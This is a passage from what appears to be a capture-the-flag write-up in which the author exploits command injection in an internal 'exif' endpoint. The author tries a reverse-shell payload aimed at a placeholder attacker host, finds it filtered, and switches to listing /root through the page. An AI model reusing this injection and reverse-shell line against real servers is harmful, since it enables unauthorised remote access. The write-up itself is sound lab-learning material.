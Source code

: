 It works :smile:

With that, let's now try to set up a reverse shell:

```
http://api-dev-backup:8080/exif?url=;bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

![screenshot17](../assets/images/the_great_escape/screenshot17.png)

Uh oh, seems that there is some server-side filtering going on. I tried many other reverse shell payloads, but I kept getting the same error. Looks like we'll have to forgo opening a reverse shell and run our commands through the page instead.

I first listed out the files in the **/root** directory:

![screenshot18](../assets/images/the_great_escape/screenshot18.png)
